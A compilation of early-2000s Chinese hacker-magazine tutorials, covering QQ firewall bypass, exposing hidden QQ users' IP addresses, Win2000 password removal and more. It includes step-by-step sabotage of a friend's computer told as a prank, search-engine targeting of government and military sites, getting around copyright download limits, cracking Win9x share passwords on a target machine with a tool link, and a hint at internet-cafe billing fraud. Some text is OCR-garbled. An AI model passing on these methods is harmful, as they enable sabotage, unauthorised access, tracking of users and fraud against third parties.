图8 字体显示发白的地址说明是不能用的。

## 三、突破 Socks 封锁

我们前面说的一、二两种情况是在网关提供 Socks 代理服务的情况下才能进行，而有些单位只允许员工浏览网页，其它 MAIL、IRC 聊天、FTP、QQ 等一概不许，所以这种网关往往不提供 Socks 代理服务，只提供浏览网页的 HTTP 代理。而我们知道QQ只提供 Socks 代理的功能，除非你注册成 QQ 会员（一般用户是不能通过 HTTP 代理上网的），所以这样QQ就又被封杀了。

连 Socks 代理都没有，很可怕哦！不过“他有张良计，我有过墙梯”，这种情况我们还是可以突破的。很简单，QQ 既然能通过 HTTP 代理通讯，我们为什么不能？QQ 提供了 Socks 代理的功能，我们只要能把基于 Socks 协议的请求转换为 HTTP 协议的请求，让 HTTP 代理服务器处理这些请求不就可以了。如何实现呢？还是借助 SocksOnline 这个软件！利用它可以轻松地将 HTTP Proxy 或其它的 Proxy 变成 Socks Proxy。

在前面介绍的第二种情况中，我们已经介绍了如何用 SocksOnline 构建一个远程 Socks 代理服务器，这里我们只要用它在本地主机上构建一个 Socks 代理，然后用QQ连上这个代理服务端口，SocksOnline 就会自动地把 Socks 协议的请求转换为 HTTP 协议的请求，通过 HTTP 代理服务器，这样又可以上QQ了。具体的实施方法如下：


- 1. 启动 SocksOnline，进入“设置”→“通讯设置”→“HTTP 通讯设置”中，选中“系统判断”项（如图9所示），这样，SocksOnline 就会自动寻找适合的 HTTP 代理服务器。如果你确定指定 HTTP 代理服务器，那就选“用户指定”项，然后在输入框中填入 HTTP 代理服务器的地址、用户、密码等信息。


- 2. 进入 SocksOnline 的“设置”→“系统设置”→“用户服务设置”，在“主机”里填入：sz6.tencent.com（腾讯的QQ服务器地址），“端口”里填入：8000（QQ服务端口），“本机服务端口”：8000。

- 3. 打开QQ，进入“注册向导”的登录界面的“网络设置”（如图10所示），选中“使用 Socks5 代理”，在“防火墙地址”里填入：127.0.0.1（本机 IP 地址），在“端口号”里填入：1080，“校验用户名和密码”空着不用填。按“测试”，如果QQ提示你代理服务器正常，就说明能用了，接下来就可以登录QQ了。

聪明的朋友可能已经想到了，其实用这种方法不但可以用来上QQ，还可以用来收发邮件、FTP 文件传输等等，只要用同样的方法设置 Socks 代理就行了。当然，如果你能将本版顺利闯关，可以注册成为 QQ 会员，那样就可以直接用 HTTP 代理上QQ了。


除上述介绍的几种封锁QQ的方法外，由于 UDP 协议的应用不是太多，少数网关就用丢弃所有的 UDP 数据包对QQ进行封杀。我们也可以通过 SocksOnline 进行 UDP 和 TCP 的数据转发上QQ，其原理也与我们介绍的第三种情况基本一样，就不再赘述。

至此我们已经学会了让QQ突破网关封锁的三大绝招，你可以用它们来摆脱那些讨厌的网关，随心所欲用QQ和朋友们天南地北地聊个痛快了！

# 隐身QQ用户IP地址暴露之谜

QQ是大家最常用的即时通讯工具，也是最易受到攻击的软件之一。那些初级“黑客”之所以能对我们实施攻击，是因为他们知道了我们的 IP 地址，然后用 IP 炸弹等工具进行攻击。但是有时在QQ中明明隐身了，怎么他们还能知道我们的 IP 地址呢？今天就让我们谈谈这个问题，为你解开这个谜。

## 一、利用“移动QQ”服务

首先他会申请移动QQ服务，在“移动QQ”服务实现后，可以使移动电话通过短消息服务和QQ用户实现信息的互通。使用移动QQ可以查询到任何在线的好友，包括虽然在线但隐身的好友！方法是（以北京移动手机用户为例）：

在手机中输入命令：60 空格“对方QQ号码”空格“所要发送的信息”，具体步骤举例如下：

- 1、通过手机短信功能，输入“60 888888 你好吧？朋友！”，按 OK 键；
- 2、这时手机提示输入号码，则输入被叫号码 1700（各移动通讯的被叫号码一般都是1700）；
- 3、按 OK 键，确认发送信息；
- 4、系统反馈发送成功的消息。

> 注意：发送短信的方式要看接受者的情况。如果你所想查询的好友在线或隐身，会收到系统的自动回复；如果对方不在线的话，系统会回复你的信息已发送；QQ不在线时，则会有类似“对方QQ已收到你发的信息”的提示。

这种方法的优点是查找方便（想什么时候查就什么时候查），准确（保证能查到他是否隐身）；缺点是你必须有手机，同时还要开通“移动QQ”服务，每查找一次（即发送一条短信）要花费0.1元。

## 二、利用“好友个人设定”功能

在0530版以后的QQ中有“好友个人设定”功能，把你所想查找的好友设置一下，就会在他（她）上线下线的时候收到系统的消息！

> 注意：方法是选择某个好友的头像，在弹出的菜单中选择“查看资料”，在弹出的“查看资料”对话框中选择“好友个人设定”标签。在此，你可以选择“如果该好友上线，则自动切换到隐身状态”“如果该好友上线，则自动弹出提示”“如果该好友上线，则自动发出问候”等选项。如图1所示。下次他（她）只要一上线，你就会知道。当然，前提条件是你必须在他（她）之前登录QQ才行。


这种方法的优点是方便、准确，缺点是你必须在他（她）之前登录QQ，好似守株待兔一般。如果你的目标在你之前登录QQ了，并且他（她）不给你发消息，则你永远也不知道他（她）是否在线，傻等着吧：）。

## 三、利用“神目”

“神目”是用来查询QQ在线情况的辅助工具软件，无需QQ在线，就可以同时查看一批QQ好友的在线情况——在线、离线、隐身、离开，速度飞快，如图2所示。

在编辑框中输入某个QQ号码，按“查询”按钮，则下方列表框中会立即显示此人的QQ号、昵称，以及在线状况——分为在线、隐身、离开和离线。若此人已保存在查询列表中，则可在列表中点选此对象，点击鼠标右键，选择“查询当前号码”，效果相同。同时，“神目”还有“上线通知”功能，这一点和方法2中找人提醒到的一样，必须守株待兔。


这种方法的优点是方便、准确，可以成批查询；缺点是必须注册才能查隐身QQ用户，要花费一点 money。另一个缺点是，当QQ出新版本之后，必须升级该软件，否则无法查找。

## 四、利用网络企鹅

网络企鹅是一款制作得相当不错的QQ工具：不但能查QQ好友的IP以及所在城市地址，而且还能查QQ上陌生人的IP和所在城市地址。其 IP 地址既可直接显示在QQ上，也可显示在该软件的“IP查看”栏，并能保存下来，十分有特点。更令人恐惧的是，网络企鹅还具有查隐身人IP的功能；只要隐身人一开口说话，其 IP 地址就暴露无遗，这样就可以知道隐身好友到底是哪里的人了（别的查 IP 地址的软件可不具备该功能哦）。

如果你想查QQ上任何人的IP，可以按照如下步骤来做：

- 1、点击系统托盘中的小企鹅，从弹出的菜单中选择“IP查看”。这时候会弹出一个窗口，此时该窗口内部没有任何内容；
- 2、你可以给你的在线好友发一个消息，如果网络畅通，当消息发过去后，该好友的IP地址、号码、端口等信息会加入到前述窗口，如图3所示；


- 3、以后，每得到一个新好友IP地址信息，“网络企鹅”将自动将其相关信息加入“IP查看”窗口；
- 4、该方法还适用于查隐身人、陌生人IP地址，只要他们一给你发消息，你就会得到他们的IP地址。

> 注意：此方法依次成为查找QQ用户隐身的方式是使用移动QQ发信息（每次花费0.1元）给你想查的人，如果对方在线或隐身，则100%能收到；如果对方不在线或离线，则不会收到。如此这般发几次消息，小心花费也很多。

## 五、通过NetXRay查IP

NetXRay 是由 Cinco Networks 公司开发的一个用于高级分组检错的软件，功能很强大。通过 NetXRay 查 IP 的方法如下：

- 1、运行 NetXRay，在菜单中选取“Tools”→“Matrix”，弹出如图4所示画面；
- 2、选择画面下端的“IP”标签；

## 侵瓜黑客


图4

- 3、按右键，在弹出菜单中选“Show Selected Nodes”；
- 4、打开QQ，和你要侦查的人聊上一句，同时观察窗口；在数据包发送的那一瞬间，画面也有变化的数据线就可能是你和他之间的IP连接。看数据线的另一头，那个IP地址（61.183.**.***）就是你侦察以来苦苦寻求的东西，如图5所示。


图5

NetXray下载地址：http://www.sycatv.net/ftp/ftp2/net/NetXRay.ZIP

## 六、防止IP地址暴露的方法

知道了对方是如何查到我们IP地址的方法，我们该怎么办呢？使用代理服务器是个不错的办法。这样那些人查到的就是代理服务器的地址，从而保护了我们的IP地址不至于暴露在“敌人”面前。如果你不想暴露自己、不想挨炸，可以按下面的方法进行防御：

首先，打开QQ的“系统参数”，单击“网络设置”，选中“使用PROXY SOCKS5防火墙”。在“防火墙地址”、“端口号”、“校验用户名”、“校验用户密码”处输入你寻找到的免费代理地址。能在QQ中使用的代理为SOCKS4和SOCKS5型的，端口号为：1080。好了，把IP地址和端口号填入（校验用户名和密码一般不用填），点击“测试”按钮，如果你填入的代理地址有效，则会弹出“代理服务器工作正常”提示框，否则就会弹出“无法连接到代理服务器”的提示。

上述步骤做完之后，最后点击“确定”即可。提供免费代理服务器的网址有很多，也可以自己用代理猎手等工具来查找。

> **注意**
>
> 要特别注意的是：按照上述方法找到可用的代理服务器后，要先退出QQ，然后再次启动QQ重新登录，这样才会改变QQ的IP。否则会不起作用。用此方法即可隐藏真实IP，使上述方法失效。

# 网聊Win2000密码问题的解决办法

guanjie

## 一、由Win9x访问Win2000时要求输入密码的解决办法

也许你有过这样的经历：当你使用装有Win98的电脑去访问Win2000系统的机器时，在“网上邻居”中点击对方的图标后出现输入密码对话框，而对方又确实没有设置访问密码，怎么办？难道只能让Win2000访问Win9x，就不能让Win9x访问Win2000吗？当然不是，以下有两种有效的解决方法：

- 1、在Win2000的控制面板中双击“用户和密码”，然后选择“高级”→“高级”。在“本地用户和组”控制台的左边“树”下点选“用户”后，右栏中将会出现Win2000下的所有用户帐号，选择并双击“Guest”，会弹出“Guest属性”对话框，将其默认的“帐户已停用”前面的勾去掉，确定后，问题就解决了。
- 2、在Win2000机器上新建一个用户，比如：新建用户share。在使用Win98的机器上也新建一个用户share，需要注意的是用户名必须相同（密码可以不同），并用此用户登录。这样Win98和Win2000就可以互相访问了，而且用这种方法更安全，不过操作性和实用性差一些。

## 二、遗忘Win2000密码的解决方法

你一定遇到过忘记Win2000密码这样尴尬的事情，那该怎么办呢？首先，我们要知道Win2000的密码存放在 C:\Winnt\System32\Config（假设Win2000安装在C盘）下，名称为SAM，每当我们登录系统的时候，系统会自动地和Config中的SAM自动校对，如发现此次密码和用户名全部与SAM文件中的加密数据符合时，系统即会让你登录；如错，则相反，无法登录。

知道了系统登录的原理之后，就可以着重想办法让SAM文件失效。让它失效有两种办法——改名或者删除。

- 方法1、在系统启动前，插入启动盘，进入 C:\WINNT\System32\Config\，用ren命令将SAM文件改名，重启，即可。
- 方法2、在系统启动前，插入启动盘，进入 C:\WINNT\System32\Config\，用del命令将SAM文件删除，重启，即可。

但是，这两种方法只对Windows系统所在的盘为FAT情况下有效，不支持NTFS。

改名或删除SAM文件以后，试用administrator登录，密码为空……怎么样？是不是成功了？再去 C:\WINNT\System32\Config\ 文件夹下面看，是不是又多了个名叫SAM的文件？这是系统在你登录的时候自建的，目的就是为了记录你的密码，以便于以后登录时的密码校对。

# 阿贝与老菜的故事


一日在老菜家上网看到了“轩辕剑四”的介绍，想借他所谓的正版盘一玩，他却以我的爱机配置不符为由否决了。一气之下准备借张软盘把刚down的资料拷走，他竟给我一张光驱驱动软盘，说没用了，里面有一些DOS时代的东西，我灵机一动，正好用它来整整他，我说你的系统最好把光驱驱动加上……

首先install安装驱动，其实就是在 c:\config.sys 中加入一句：device=c:\cdrom\Axcdrom.sys /d:mscd000

其中Axcdrom.sys是光驱的驱动文件；mscd000是一个设备名（可自己取名），它一旦被加载将一直被系统所使用，如果某个文件夹或文件与它重名，这个文件夹或文件就不能被系统访问。所以不要太狠毒，我就把它改成了Windows。重新启动计算机，哇！找不到系统文件，dir一下有Windows目录呀，cd windows时提示 Invalid directory（非法目录）。

老菜的表情告诉我他非常悲痛，我用无赖（赖）的口气对他说：你中“奖”（毒）了，并要帮他找正版杀毒盘，老菜当即用激动的双手把“轩辕四”放在我手上，并让我想玩多久就玩多久。

> **注意**
>
> 如果将mscd000设为其它文件夹名，会进入Win98，但此文件夹在装了的电脑中会被“隐藏”；如果使用Windows目录名，则此文件名有可能会显示在启动的DOS设备中，保证令其终生难忘。

事隔三日，我去还盘，因为我家的老古董实在玩不了。还没进门，一股冷嘲热讽的强风就打在了我的脸上（因为上次的事被晓得了）。当我还想在他的机子上格式化磁盘时，老菜大跨一步上来一把抓住它（鼠标），说新机子要爱护，现在要作磁盘（按摩）扫描，免得我真想给他来个飞腿过去。这时，旁屋也诘问了，他老婆也拍打我没帮他修，还一定要全面地（按摩）。好，我就让它永远按下去……

> **注意**
>
> Win98“系统”中有一个 explorer.exe，同时桌面资源管理器中也有一个真正的 explorer.exe；而如果在根目录中加载此文件，桌面将不再到Windows目录中去查找。我爱做的就是用一个伪装状态的 explorer.exe。

先在Windows目录中找到 scandskw.exe（磁盘扫描程序），把它拷到 C:\ 盘根目录下，更名为 explorer.exe。当Win98启动时会先加载根目录下的 explorer.exe（更名的磁盘扫描程序，如下图所示），系统就会将停止在此，因为只有一个磁盘扫描程序，如果关闭就只剩一张绿脸了，Ctrl+Alt+Del后也什么都没有（因为注册表还没有导入，什么都没启动），就算重装也一样（除非格式化或删掉根目录的 explorer.exe）。


> **注意**
>
> 不妨让硬盘发出噪音而进入死循环吧，当利用微软拼音输入法的帮助调出Windows的帮助后，关闭硬盘扫描程序，这就可以解决问题！但这种方法会再启动一次。

一切就绪，我运行扫描程序，临走时告诉老菜扫描后一定要重启。晚上电话响了，老菜可怜巴巴地问：“为什么开机总是执行扫描，重装系统也不行。”

我说：“那就糟吧！”

老菜根本舍不得他的那些宝贝——其实就是些MM的照片和一些不成熟的情书。我估计老菜这时就像暴走八神，无法控制了。听到这儿，我的心里像开了花一样美，但是由于对朋友的关心，我还是要安慰一下的。

> “可能新机子要爱护，它要（按摩），就让它一直爽下去嘛！兴许还能载入吉尼斯世界记录——按磁时间最长奖。”

# 搜索引擎——黑客的分类工具

搜索引擎，想必各位都用过，像yahoo、google、搜狐等就是非常著名的搜索引擎。可是你知道吗？对于黑客来讲，搜索引擎可是一个非常不错的工具哟。下面我就向各位简单介绍一下搜索引擎在黑客技术中的应用。

搜索引擎最大的作用便是信息检索。举例来讲，黑客在扫描过程中捕捉到了如下的CGI漏洞，/cgi-bin/calendar_admin.pl、/cgi-bin/bbs-forum.cgi、/cgi-bin/isindex2.bat等等，便可以在搜索引擎中对这些漏洞进行检索，从而很快地了解这些漏洞的使用，如图1所示。


图1

第二就是利用搜索引擎寻找存在安全漏洞的主机，这种方法在一些杂志上也早有介绍。例如黑客可以在搜索引擎中搜索 /cgi-bin/phf、/cgi-bin/php、/cgi-bin/php.cgi/cgibin/loadpage.cgi 等等，借此找出一些存在CGI漏洞的服务器。现在在Internet上的网络安全技术网站以及黑客技术网站有很多，因此在实际搜索过程中，找到的大多是关于CGI漏洞的说明及使用方法，但是如果你有时间和耐心的话，我们相信你一定会找到的，如图2所示。


图2

第三就是寻找目标主机，这与上面提到的那个不同。举例来说，黑客想入侵某国的教育机构网站，那么他是如何确定目标的呢？难道是在扫描工具中随便输个网站蒙的吗？或者是在Internet上一个网站一个网站地查找呢？当然这都不可能。

> 注意
>
> 简单介绍一下域名的基本知识：我们知道，在Internet上的每一台主机都有一个唯一的IP地址，像198.137.240.91（美国雅虎的IP）、202.102.9.185（我们当地市政府网站的IP）、192.192.18.5等等。但是IP地址非常不好记，于是就又出现了域名，像 www.yahoo.com.cn、www.163.com、www.sina.com.cn 等。域名与IP是对应的，一个IP可以对应许多域名，而一个域名只能对应一个IP。像 newcongress.yam.org.tw，为什么没有最高域名org？台湾域名yam为三级域名；newcongress为主机名。在最高域名的规定中，cn代表中国，tw代表台湾，hk代表香港，mo代表澳门，jp代表日本，uk代表英国等。另外，在二级域名中，gov代表政府部门，edu代表大学及教育机构，mil代表军事部门，com代表商业及工业组织，net代表网络运营和服务中心，org代表其他组织机构等。

好了，有了上面这一点最基本的东西，那么黑客是如何利用搜索引擎寻找到比如日本的教育机构的网站、台湾军部的网站呢？应该知道了吧！就是用搜索引擎搜索 .edu.jp，绝对会找到许多的，我有时用的就是这个法子，如图3所示。


图3

现在如果让你搜索日本政府部门的网站、台湾军事部门的网站，你应该会了吧！就是搜索 .gov.jp、.mil.tw。

## 搞定 Linux 文件

傻白客

现在使用Linux的Hacker朋友越来越多，当然问题也随之而生。我首先讲下Linux对文件的特殊要求，其实说它特殊，只不过它是基于Unix的一套命令及文件格式。而Windows则是基于DOS的，我想对于Windows下的扩展名大家应该了如指掌了吧！但关于Linux文件下的使用格式，可能知道的寥寥无几。有的朋友还问我：*.com 的文件在Linux下都坏掉啊！这是因为Linux与Windows文件在很多情况下是不能相通的。现在我就对照着Windows给大家简单地介绍一下Linux下的一些基本文件格式。

## 常见压缩和打包文件格式

- Win下：.zip、.rar 等。
- bz2：使用 bzip2 命令压缩的文件，可以使用 `bzip2 -d filename` 解包；
- gz：使用 gzip 命令压缩的文件，可以使用 `gunzip -d filename` 解包；
- tar：使用 tar 打包的文件，即 tarball 文件，可以使用 `tar xf filename` 解包；
- tbz：使用 tar 打完包后再以 bzip2 命令压缩的文件，可以使用 `tar jxf filename` 解包；
- tgz：使用 tar 打完包后再以 gzip 命令压缩的文件，可以使用 `tar zxf filename` 解包。

## 常见图形及多媒体文件格式

- 与Win下差不多，因为这是由应用软件决定的。
- au：声音文件，可以使用系统的声音播放器或者JAVA程序播放；
- gif：GIF图像文件，可以使用WEB浏览器查看；
- html/.htm：HTML文件，可以使用WEB浏览器查看；
- jpg：JPEG图像文件，可以使用WEB浏览器查看；
- pdf：文档的电子版本，PDF是一种电子文档的标准，可以使用 xpdf 或者 Adobe Acrobat Reader 阅读；
- png：PNG图像文件，PNG是 Portable Network Graphic 的简写，可以使用WEB浏览器或者图像浏览器查看；
- ps：PostScript文件，一种打印格式文件，可以使用 ghostview 或者支持 ps 查看的图像浏览器查看，也可以直接输出给打印机打印；
- txt：文本格式文件，可以使用任何编辑器查看；
- wav：声音文件，可以使用声音播放器播放；
- xpm：XPM图像文件，可以使用图像查看器查看。

## 常见程序和系统文件格式

- Win下：.ini、.sys、.com、.exe 等。
- conf：某个程序的配置文件，一般可以使用 vi 进行编辑；
- lock：某个程序的锁定文件，用于检测某个程序在执行或者某个设备或资源正在使用；
- rpm：RedHat的软件包管理器文件，用于安装软件程序和脚本文件；
- c：C语言程序源码文件；
- cpp：C++语言程序源码文件；
- h：C或C++语言的头文件；
- o：程序对象文件；
- pl：Perl脚本文件；
- so：动态链接库文件；
- tcl：TCL脚本文件。

暂时想到的就这些，希望对那些Linux爱好者有一定的帮助！

# 图解在线音乐（影视）下载攻略

伤心稻草人

我是一个地道的网虫，更是网上资源的“疯狂掠夺者”，不管是软件、游戏还是音乐影视，只要自己喜欢，没说的——一律下载，不把它们“Down”到自己的硬盘上誓不罢休。我的下载信条是：“只有网上没有的东西，没有下载不下来的东西！”，因此朋友们都把我称为“网络榨汁机”，有什么好东东找不到或者下载不了，都会来找我帮忙。

我所在的小区一年前开通了宽带网，速度之快使上网真的成了一种惬意的享受，下载个大型软件什么的简直不在话下，而且在宽带网的官方网站上有着很多的好东西——好看的电影、好听的音乐、MTV……真是令人太快乐啊！更令人高兴的是，上面的音乐影视节目都可以自由下载，直接把相关的链接拖到FlashGet中就OK了。因为在线播放常常重新缓冲，很是不爽，所以对于喜欢的节目我都会下载到自己的硬盘上再欣赏。从此我更是如鱼得水，尽情地畅游在网络之间。然而好景不长，最近情况发生了改变，可能因为版权的问题，官方网站对所有的音乐影视资源作了限制，用常规的方法根本不能下载，相关的链接都是假的，比如一首MP3的地址：http://music.xxxx.net/listen.php?id=35811，如果用FlashGet下载下来看，大小才1K左右！不会吧，一首MP3不会就这么点儿吧？没办法，用“记事本”打开看看里面有没有真正的下载地址，如图1所示：


唉，看来官方网站用JAVA技术对节目的真实地址作了隐藏和限制处理，这可苦了像我这样的下载狂人了！不能下载，我怎么流畅地欣赏影视节目啊！这时候有好几个朋友（也是宽带网的用户）也遇到了同样的困境，折腾一番之后，最后都无奈地“鸣呼哀哉”，所以来找我这个号称“网络榨汁机”的下载狂帮忙了。既然如此，我不能对不起朋友，也不能对不起我自己的“雅号”，只好硬着头皮研究一番了。

## 一、网络嗅探法

首先请出了StreamBox VCR，这可是个下载在线节目的好东西，对隐藏的链接有一定的探测功能。安装启动后，把刚才那个地址添加到StreamBox VCR里面，下载试试，结果如图2所示：


StreamBox VCR下载地址：http://www.skycn.com/soft/8693.html 和用FlashGet下载的结果一样，StreamBox VCR也无能为力。暂时没有进展，我随手点击了 http://music.xxxx.net/listen.php?id=35811 这个链接，弹出了一个播放器窗口开始播放这首歌。等等……我忽然想到，虽然不能下载，但是播放的时候，节目的真实地址一定解析到了本地的电脑，要不然电脑怎么播放的？如果有一个嗅探器，岂不是能够知道节目的真实地址了！哈哈，思路找到了，上网搜搜看，Go！

果然，找到了一个网络信息侦测（嗅探）软件——Project URL Snooper。下面是它的功能介绍：

> “Project URL Snooper 是一个网络信息侦测（嗅探）软件，能够实时跟踪通过你电脑中（经过网卡、调制解调器等）的数据信息，并分析出里面的各种类型的URL地址。一些电影网站对于影片的地址往往隐藏得很好，但是这个软件能够很容易地将这些地址展现在你的眼前。它是配合StreamBox VCR、ASFR、SDP等一些流行的流媒体下载软件很好的助手。”


哈哈，就是它！它在安装过程中需要WinPcap 2.3驱动程序，其实Project URL Snooper已经内置了。安装完毕，启动界面如图3所示：


Project URL Snooper下载地址：http://www.skycn.com/soft/8770.html

由于是汉化版，所以很容易上手，不过在使用之前，还需要作一定的设置：点选程序界面的第二个标签“常规选项”，打开标签页，如图4所示：


# 傻瓜黑客

## 黑客X档案2002-2003年合订本

初始状态时，“网络侦测选项”下面的“适配器”选项是空白的，点击右边的下拉箭头进行选择，其中有两个选项，一般就选第一个好了。

设置好后，返回“搜索”标签页，点击“侦测网络”，然后点击那首 MP3 的地址：http://music.xxxx.net/listen.php?id=35811，打开播放窗口开始播放。而在此同时，Project URL Snooper 已经忠实地开始探测了，如图5所示。

哈哈，果然捉到了！图中所示的就是这首 MP3 的真实地址，而且是 HTTP 协议的，把这个地址复制到 FlashGet 中就可以下载了（如果是 rtsp、mms 等协议的话，则需要使用 StreamBox VCR 下载）。

问题算是解决了，但是“网络榨汁机”是不会就此罢手的，还要向更高的目标前进。大家可以发现，以上讲述的只是一首 MP3 的探测和下载过程，如果要是一首一首地下栽，还不得把俺累死啊？得想个比“地下栽”的办法，Let's go!


宽带网的官方网站上设计了一个很贴心的功能——“连续听”，可以一次性连续地听歌。我们就来看看，可不可以利用这个功能做些什么？同样还是使用 Project URL Snooper 探测真实地址——启动“侦测网络”，然后点击网页上的“连续听”，侦测结果如图6所示：


唉，失败了，看来这种方法行不通。难道只能一首一首地下栽吗？不行，再来！

静下心来想一想，能否从网页的源文件下手呢？直接查看是不行的，在弹出的播放器窗口中地址栏、工具栏什么都没有，右键也无法使用，根本无法查看源文件。那么如何才能“曲线救国”呢？于是搬出 HTML 方面的资料一阵猛啃，终于有了新的发现。

## 3. 利用网页源文件法

在网页上“连续听”按钮上点击右键——“复制快捷方式”，把它粘贴到浏览器的地址栏中，如图7所示：

把其中的“listen”替换为“load_music”（注意，没有引号），然后回车。看！一个一应俱全的播放窗口出现了，如图8所示：


这下再没有什么限制了，依次点击“查看”→“源文件”，打开了一个“记事本”窗口，查找“xtl”，如图9所示：

```html
<tr>
<td colspan="7" height="64" align="center" valign="bottom">
<object width="320" height="64" classid="clsid:CFDAA03-8BE4-11cf-B84B-0020AFBBCCFA" id="Player">
<param name="NOLABELS" value="FALSE">
<param name="AUTOSTART" value="TRUE">
<param name="SRC" value="http://music.xxxx.net/newmusic/jak0/band/ses/02/cd1269.xtl">
```


看到了吧？图中所示这个 *.xtl 文件就是“连续听”的播放列表文件，里面存有 MP3 的地址列表，我们用 FlashGet 先把这个文件弄拉下来，用“记事本”打开看看。如图10所示：

哈哈，这下子爽了，使用 FlashGet 的“批量下载”功能就能全部下载了！顺便说一下 FlashGet 的“批量下载”功能的使用方法（可能还有很多朋友没有用过）。

在 FlashGet 界面中依次点击工具栏上的“任务”→“添加成批任务”，出现如图11所示对话框：


图11

随便复制 MP3 播放列表中的一个文件地址过去，然后把 MP3 的名称（就是“.mp3”前面的那个，例如图11所示的“通配符”）改写成“(*)”（注意没有引号，并且要切换到英文输入），然后把 MP3 的起止名称填好，比如我的这个 MP3 播放列表一共有 6 个文件，起止名称就分别是“01”和“06”，通配符长度为“2”说明文件总量小于 100，如果超过 100，就选“3”。

设置完成之后，就可以批量下载了！至此，我们已经完全突破了对下载 MP3 的限制，自由自在地“Down”啦！

## 三、不攻补充

- 1. 如果使用方法二，利用网页源文件方法突破限制下载单个媒体文件，则在网页源文件中需要查找的是“m3u”，其它操作是一样的。
- 2. 如果要突破的是视频文件，需要替换的不同于 MP3 文件的“listen”，而是改“player”为“dianbo”（点播），而在网页源文件中查找的是“make”，找到的一般是“makeasx”，用 FlashGet 把这个文件下载下来，再用“记事本”打开，里面就会有类似 mms:// 的地址，这就是影片的真实地址了，可以用 StreamBox VCR 下载。
- 3. 本文中介绍的方法是在笔者所在的宽带网中试验成功的，其他地方的朋友可以据此举一反三，触类旁通地解决自己当地的问题。

> **注意** 本文纯属探讨黑客技术，如因本文引起的一切法律后果，均与本文作者无关，请朋友们慎重对待！

## 被遗忘的角落——Win9x 系列共享密码校验漏洞的利用

abu

前段时间接触了一些最终用户，也连着给用户做了一些培训。在分析了部分用户的实际情况之后，发现大部分的问题来自网络的泄密以及蠕虫病毒的泛滥。

病毒的事情我不谈，不是我不想说，而是我不了解，也许我在请教一些朋友之后会写一些我的思路和观点，但网络的问题我倒是可以和大家聊聊。

很多用户的文件交换是基于 Windows 9x 系统的网络共享来进行的，而大多数人因为方便的原因就喜欢开设有密码的可写的共享文件夹。有一次听了一个做病毒防护的公司给朋友公司做培训，也谈到上面这个问题，他们建议用户：不要开没有密码的共享，只要设置了密码，就没有这种问题了。

的确，对于目前的网络弱点来说，都是直接简单地尝试空密码的可写共享，但设置了密码的共享文件夹就真的很安全吗？安全领域有一个人的名字可以和牛 B 划上等号，他就是袁哥。早在 2000 年的时候，他就发现了一个很严重的系统漏洞，这就是 Win9x 系列共享密码校验漏洞。

这个漏洞允许任意用户访问 Win9x 文件共享服务，即使此共享目录已经受到口令保护。攻击者并不需要知道真实口令。

> **注意** 这里不去说这个漏洞的原理，但如果你很想要查的话，在中国漏洞库查询 SA2000-05 就可以查到。这里的攻击工具可以在这个地址获得（需在 Win2000 平台上运行）：http://www.patching.net/abu/tools/win9xspc.exe

首先，我确定了这次的目标，是一台内部网络中间的 Windows 98 的机器。地址为：192.168.1.163，它开了三个共享文件夹，我试图打开其中名叫“文件夹”的共享。如图1所示：


图1


图2

呵呵，弹出了对话框，要我输入用户名和密码，搞不定，我又不是透视眼，更猜不出密码。所以打开我准备的工具 SPC（Share Password Checker），并输入目标 IP 地址，按 Start 按钮，立刻就把对方机器的共享情况列举出来了。如图2所示：

细心的朋友已经发现密码的长度已经暴露出来。接着点击 Show 按钮，对方的密码立刻就出现在我们的眼前。如图3所示：


很简单也很有意思吧！对方的“文件夹”共享密码是“BLUESKY”。注意，这里虽然是大写，但实际上系统并不区分大小写。

再次连接对方机器的共享目录，用户名可以不写，或者乱写一个，呵呵，我就写对方的主机名。如图4所示：


当然，对方的共享文件夹的内容就暴露出来了。如图5所示：


不知道这算不算是泄密呢？……

其实说起来这个漏洞的发现到现在，起码有两年多了吧！微软也早就发布了补丁，但从我接触的情况来看，几乎是 100% 的 Win9x 网络用户都没有去安装补丁，那么在这种环境下又是怎么做到信息的安全呢？

还有一个原因就是关于网络蠕虫和病毒方面，我自己没有什么研究，但我大概知道目前的网络蠕虫传播的时候都没有考虑到密码的情况。例如，把这里揭示的这种直接破解 Win9x 网络共享密码的方式采纳进网络蠕虫中间，相信它的传播和破坏性将是惊人的。

下面是这个漏洞的补丁文件，不分语言版本，装不装就随你了。

```
Microsoft Windows 95
http://download.microsoft.com/download/win95/Update/11958/W95/EN-US/273991USA5.EXE

Microsoft Windows 98 and 98 Second Edition
http://download.microsoft.com/download/win98SE/Update/11958/W98/EN-US/273991USA8.EXE

Microsoft Windows Me
http://download.microsoft.com/download/winme/Update/11958/WinMe/EN-US/273991USAM.EXE
```

## DOS 热键妙用

yljk

- 前一段时间，因频繁使用 DOS，而且有时要输入一些很长、相同的字符串，故甚感烦琐，经过本人的探索，发现 DOS 下面的快捷键 F2、F3、F4、F5、F8、F9 等的一些妙用，现将作用介绍如下。
- 如果你要在 DOS 中的当前命令行下复制上一次输入的命令，只要按一下 F3 就可以了。而 F2 是复制任意时的字符。首先按一下 F2 调出复制框，再用鼠标选中所要复制的字符，然后按一下回车键（Enter），最后在 DOS 中点一下鼠标右键就可以了。而 F4 是 Delete 任意时的字符，它的用法和 F2 是一样的。而 F5 和 F8 的用法和 F3 的用法是一样的，都是复制刚刚输入的命令。
- 好了，现在讲讲复制 Windows 窗口中的任意字符到 DOS 中，你可以用 Ctrl+C 或右键复制，然后回到 DOS 中，点一下鼠标右键就可以复制上去了。你可以先在 Windows 窗口中写好一些要输入的中文字符，再用我讲的方法复制 Windows 窗口中的字符到 DOS 的窗口中去。
- 如果你懒得记以上 DOS 热键的话，那就让我们来谈谈最后的大绝招 F9 键，F9 键是你想复制什么就能复制什么，它是根据字符出现的先后所选取要复制的字符，你按一下 F9 键就可以看到一个输入命令号码的输入框，下面让我们来举一个例子。如果你第一个输入的是“xxxx”，当你输入了一些字符后，这时候如果输入第一个字符，那你就可以按一下 F9，在输入命令号码的输入框输入数字 1，然后按一下回车键（Enter），就可以复制到当前的命令行了，输入框中只能输入代表字符出现先后的数字。此法适用于 Windows 2000/NT/XP 操作系统。

# 偷窥X-黄金眼

nn

在前几期的《黑客X档案》中提到了上机者可以通过进入网吧计费端来获取用户数据库文件，然后可以随意添加用户名及加钱，呵呵！这的确是一个“省钱”的好办法，可是“省钱”并不意味着省力呀！访问了学校周围的 N 家网吧，皆扫兴而归，原因嘛，很简单：那些网管太精明了，连个共享都舍不得开（哪怕是个只读的也行啊！）。条条大路通罗马，太执着了也容易碰壁哦！还是退一步海阔天空吧！难道非要揪着那可怜的主机不放吗？

